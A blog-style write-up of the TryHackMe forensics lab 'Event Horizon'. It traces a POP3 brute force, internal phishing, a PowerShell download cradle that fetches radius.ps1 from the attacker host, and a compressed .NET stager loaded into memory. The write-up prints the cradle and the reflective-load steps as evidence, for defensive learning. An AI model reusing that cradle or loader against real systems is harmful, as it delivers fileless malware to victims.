> Lab work from TryHackMe's "Event Horizon" room, a Hard-rated forensics challenge.
> IPs are the capture's private lab addresses; credentials, keys, hashes, and the flag are redacted.
> To see where I got this from, and to give it a try yourself, you can go to:
> [TryHackMe | Event Horizon](https://tryhackme.com/room/eventhorizonroom "Visit TryHackMe")
{: .prompt-info }


## TL;DR

When this lab came across my dashboard, the space theme interested me enough to join in. I wasn't expecting a forensics lab, but it was an interesting challenge. After spending the evening setting up my sandbox environment, I dove in and got lost late into the night. What started with a brute-forced POP3 credential led to a spearphishing email containing a malicious PowerShell script from the compromised inbox. What looked like a simple calculation script ended up loading a .NET payload directly into memory and started an encrypted C2 channel. When the C2 switched to a new session key during the handshake, the packet capture wasn't enough, and I had to dive into a memory dump to search the stored RSA blobs for the matching RSA private key, and use it to decrypt the new session key. Eventually I was able to cross the Event Horizon, find the mimikatz payload, and recover the exfiltrated data.

## Starting out

- **Name:** Event Horizon
- **Description:** *Unearth Secrets beyond the Event Horizon.*
- **Difficulty:** Hard
- **Time:** 120 min

The room is a single task with a short story and six questions:

> "Join Tom and Dom on a quest to find out what happens when you look beyond the Event Horizon. A quest beyond borders, they need you to utilize all your abilities to find the secrets that were taken when they crossed over to the other side."

1. The attacker was able to find the correct pair of credentials for the email service. What were they? (`email:password`)
2. What was the body of the email that was sent by the attacker?
3. What command initiated the malicious script download?
4. What is the initial AES key that is used for decrypting the C2 traffic?
5. What is the Administrator NTLM hash that the attacker found?
6. What is the flag?

The questions lay out the attack in order, which made them a useful guide for where to look next.

### Setting up a sandbox

This is a forensics room, and the evidence may contain live malicious content, so I only worked on it inside an isolated VM.

A quick note on my lab environment: I converted my old 2016-era gaming computer into a Proxmox server to host VMs, one of which is Kali. I originally set it up as my own attack box for TryHackMe labs over the VPN, but lately I've been using TryHackMe's provided AttackBox for convenience. Before starting, I spent some time updating Kali and installing tools I knew I'd need or had learned about since I last used it, like capa and a local copy of CyberChef (which caused an issue later in the lab).

The Kali VM has two NICs. The first is on an isolated bridge with no outbound access, used purely for hosting vulnerable machines to practice against. The second is connected to my LAN for updates, downloading tools, and the VPN. For the duration of this lab, I disabled the LAN NIC through Proxmox to block any communication between the sandbox and the outside world (with one brief exception I cover later), so my only access to the VM was through the Proxmox console.

Before doing any work, I took a snapshot as a restore point. I then downloaded the provided zip directly inside the sandbox, disconnected the LAN NIC, and confirmed the isolation by pinging my gateway, other LAN devices, and remote hosts, all of which timed out.

All analysis of malicious code was done statically; nothing from the lab was ever executed. The evidence is also entirely Windows-based and was analyzed on a Linux host. That isn't a perfect protection on its own, but it adds another layer on top of the other precautions.

I validated the file hash against the one the room lists before opening anything.


_The hash matches._


_Two pieces of evidence: a packet capture and a PowerShell process dump._

That gives two very different kinds of evidence. Wireshark covers the packet capture, and the dump can be searched for text and binary structures later. I started with the network traffic.

## Triage: what's in the capture

### Capture overview

- **6,853 packets**
- First packet at 2:36:23, last at 2:39:20 — just under **3 minutes** of traffic


_Protocol hierarchy for the whole capture._

Nearly everything (99.5%) is TCP over IPv4. Within that:

- **POP3** — 17.5% of packets
- **HTTP** — 2.6% of packets but about 31% of the bytes, including PNG, JPEG, and text data
- **SMTP** — 0.3%, with a single Internet Message Format entry (one email)

The small amount of UDP and IPv6 traffic is local name resolution: mDNS, LLMNR, and a single DNS lookup.

### Conversations


_Ethernet._


_IPv4._


_IPv6._


_UDP._

Almost all of the traffic (6,821 packets) is between two hosts:

- **10.0.2.45** → **10.0.2.46**: 4,394 packets, about 2 MB
- **10.0.2.46** → **10.0.2.45**: 2,427 packets, about 5 MB

.46 sent more data than it received, which is worth keeping in mind for later.

The rest is background noise. .46 made one DNS query to `192.168.1.1` and some multicast name-resolution traffic (mDNS to `224.0.0.251` on 5353, LLMNR to `224.0.0.252` on 5355). A third host, `10.0.2.44`, only appears sending the same kind of multicast traffic plus an IGMP message to `224.0.0.22`, and isn't involved in anything else.

### I/O graph


_Traffic over time._

Spikes at roughly:

- **2–3 seconds**
- **~10 seconds**
- **just before 50 seconds**
- **~95 seconds**: the largest spike, with most of the data sent between 90 and 100 seconds
- **~145 seconds**: a spike that also includes a burst of TCP errors

Each of these lines up with a stage of the attack. They're mapped out in the [timeline](#timeline) at the end.

## Initial access: brute-forcing POP3

Most of the packets were POP3 on port 110 (plain POP3, not POP3S), so I started there.


_All of the POP3 traffic is between the same two hosts._

All POP3 traffic is between the two main hosts, with most of it being from about 7.9 seconds until around 12.5 seconds, which lines up with the second spike in the I/O graph. POP3 isn't encrypted, which is convenient for analysis but is exactly why it shouldn't be used for real mail.

In this conversation the attacker (.45) is the client and the victim's mail server (.46) is the server.


_A handshake that never completes: SYN → SYN-ACK → RST that came in seconds before most of the POP3 traffic._

Looking at the context surrounding it, it appears to be a port scan probing at port 110.


_The first successful handshake (SYN → SYN-ACK → ACK)._

POP3 logs in with two plaintext commands after the TCP connection is up: the client sends `USER <name>`, the server acknowledges, then the client sends `PASS <password>` and the server validates it. So I looked for those.

### A capabilities probe


_After the `+OK` greeting, the client asks for `CAPA`._

Before trying to log in, the client sent `CAPA`, which asks the server to list its capabilities: optional features, extensions, and supported login methods.


_The server supports `USER`, `UIDL`, and `TOP`._

- **USER** — the username/password login described above
- **UIDL** — gives every message a unique ID
- **TOP** — fetches only the headers and a set number of body lines instead of the whole message

The `.\r\n` at the end is just how POP3 ends a multi-line response.


_`QUIT`, then two RSTs from the client instead of a clean close._

Then the client quit. Here's the actual order:

1. Client sends `QUIT` and its FIN
2. Server ACKs the FIN
3. Server sends `+OK ... goodbye`
4. Server sends its own FIN
5. Client answers with two RSTs instead of ACKing

The client had already closed its socket before the server's goodbye and FIN arrived, so its kernel reset each of them. It's a messy close, and common for tools that send `QUIT` and move on without waiting. It's not proof of anything on its own, but it fits with what came next.

### The brute force

About 0.2 seconds later, a burst of new connections starts between the same two hosts.


_A stream of SYN requests from the client to the server at the exact same time spread across 8 ports._

Several SYNs go out at the **same microsecond**, each from a new ephemeral source port, with identical TCP options, and the server accepts all of them. A person, or a normal mail client, doesn't open that many parallel POP3 sessions at once. This is automation.

I followed the first new connection after the probe (frame 2720):


_`USER`, `+OK`, `PASS`, `-ERR` — over and over._

Each connection sends `USER` with an address, gets `+OK`, sends `PASS` with a simple password that looks like it came from a wordlist, gets `-ERR`, and tries again. The attempts cycle through several accounts:

- `dom.mark@eventhorizon.thm`
- `<redacted>@eventhorizon.thm`
- `janice.jay@eventhorizon.thm`
- `joan.ray@eventhorizon.thm`

The pattern (parallel connections, one wordlist cycled against each account) is consistent with a multi-threaded brute-force tool such as Hydra. I can't confirm the specific tool from traffic alone.

### Finding the successful login

To find the attempt that worked, I needed to know what the server sends on success. It starts with `+OK`, just like the reply to `USER`, so I filtered on server responses and narrowed it down to `+OK Mailbox locked and ready`.


_The one response that's different._

"Locked" here doesn't mean the account was locked out. A correct `PASS` moves the session into POP3's TRANSACTION state, and the server locks the mailbox so no other session can change it while this one is open.


_The credentials that worked._


That's **Q1** answered.

## Phishing from the compromised mailbox

POP3 only receives mail, so to see what the attacker did with the account, I moved to SMTP.


_The server greets with `220 ESMTP`, and the client introduces itself with `EHLO`._

SMTP is a server-speaks-first protocol: after the TCP handshake the server sends its `220` banner before the client says anything. The client's `EHLO` hostname gave away that the attacker was on a Kali machine, or at least a machine named Kali.

I hadn't worked with SMTP in a capture before, so I looked up the reply codes and client commands.

**Server reply codes** — the first digit says the most:

| Code | Meaning |
|---|---|
| `2xx` | Success |
| `3xx` | Go ahead, send more |
| `4xx` | Temporary failure, try again later |
| `5xx` | Permanent failure, rejected |
|---|---|
| `220` | Service ready (greeting) |
| `221` | Closing connection (reply to `QUIT`) |
| `250` | OK, requested action completed |
| `334` | Auth challenge |
| `235` | Authentication successful |
| `535` | Authentication failed |
| `354` | Start mail input; end with `<CRLF>.<CRLF>` |
| `550` | Mailbox unavailable |
| `554` | Transaction failed |

**Client commands:**

| Command | Purpose |
|---|---|
| `EHLO <hostname>` | "Extended hello": introduces the client and asks for capabilities |
| `HELO <hostname>` | Older greeting with no capability list |
| `STARTTLS` | Upgrades the connection to TLS |
| `AUTH <method>` | Starts login. `AUTH LOGIN` sends the username and password Base64-encoded in two steps; `AUTH PLAIN` sends both, Base64-encoded, in one line |
| `MAIL FROM:<addr>` | Envelope sender |
| `RCPT TO:<addr>` | Envelope recipient |
| `DATA` | The message: headers and body |
| `RSET` | Resets the transaction without disconnecting |
| `VRFY <user>` / `EXPN <list>` | Asks whether a user or list exists; used for enumeration |
| `QUIT` | Ends the session |

Reading the session with that: the server says it's ready, the attacker says hello and asks for capabilities, the server offers `AUTH LOGIN`, and the attacker logs in. With `AUTH LOGIN` the server's prompts and the client's answers are all Base64. Base64 is an encoding, not encryption, so anyone capturing this traffic live could have read the credentials too.

> At this point I wanted to use CyberChef. My local build inside the sandbox failed, so I briefly reconnected the VM's LAN NIC to install it, then disconnected again. I knew this wasn't ideal, but at that point I had only extracted the zip and opened a pcap. No lab content had been executed, and the evidence consists of Windows artifacts on a Linux VM. The same decoding could also be done with `echo '<string>' | base64 -d`.
{: .prompt-warning }


_`Username:`, `Password:`, and the attacker's answers._

The decoded login is the same account and password that were brute-forced over POP3. The attacker reused the stolen credentials to **send** mail as the compromised account.

### The email


_From <redacted> to `dom.mark`._


_Headers, body, and an attachment._

The message has the usual headers (To, From, the subject "Event Horizon", date, MIME version, and a MIME boundary), a short body urging Dom to run a script as Administrator, and an attachment, `eventhorizon.ps1`. The body is **Q2**.

>While the email itself is suspicious, riddled with odd misspellings and urging the user to run a PowerShell file, it comes from a real account on the mail server, not a spoofed one. That means that even if a server implements SPF/DKIM/DMARC, this would pass those checks since it was sent through the legitimate server with valid credentials. Because this is internal, the server often doesn't even check against SPF/DKIM/DMARC, even if they are configured. 
>
>From the human side, you are more likely to trust emails from known colleagues. This is a form of phishing that uses internal compromised accounts, related to business email compromise (BEC).
{: .prompt-tip }

## Payload delivery: a download cradle

The attachment is Base64-encoded, so I decoded it.


_Mostly black-hole math, with an `IEX` at the end._

Most of the script is a cover story. The part that matters is the line at the end, which is **Q3**. Breaking down its pieces:

- **`IEX` (`Invoke-Expression`)** runs a string as code instead of treating it as text
- **`New-Object Net.WebClient`** creates a web client for sending and receiving data
- **`.DownloadString()`** fetches the contents of a URL as a string
- **`http://10.0.2.45/radius.ps1`** is a script hosted on the attacker's machine

Together, it downloads `radius.ps1` as text and runs it immediately. This is one of the most common ways to deliver malware without anything being **written to disk**. The script is still transferred over HTTP, but it only ever exists in memory.

### Finding the download in the capture

```text
ip.dst == 10.0.2.45 && tcp.port == 80
```


_The victim fetching `radius.ps1` at about 49.6 seconds (frame 4722)._

The request happens at about 49.6 seconds, which is the small spike just before 50 seconds in the I/O graph.

## Analyzing the stager


_A one-line PowerShell script wrapped around a very large Base64 string._

`radius.ps1` is a single line of PowerShell around a large Base64 blob.

My first try using CyberChef I only did a Base64 decode, which gave me garbage. It was clear that more work had to be done, which got me to look back at the contents of the PowerShell.

```powershell
[Convert]::FromBase64String('...')                         # 1. Base64-decode
New-Object IO.Compression.DeflateStream(..., Decompress)   # 2. decompress (raw deflate)
[Reflection.Assembly]::Load(...).EntryPoint.Invoke(...)    # 3. load the result as a .NET program in memory and run it
```
I missed the Deflate at first, which meant I had to inflate as well as Base64 decode. CyberChef has Raw Inflate as an option which I applied after the Base64 in my recipe and got a proper output.


_From Base64 → Raw Inflate._

I saved it as `stager.bin` for analysis.


_A Windows PE, specifically a .NET assembly._

The output is a Windows executable. Step 3 (`Assembly::Load` + `EntryPoint.Invoke`) loads it straight into PowerShell's memory and runs it, so it never touches disk. 


```bash
strings -n 6 stager.bin | less
```

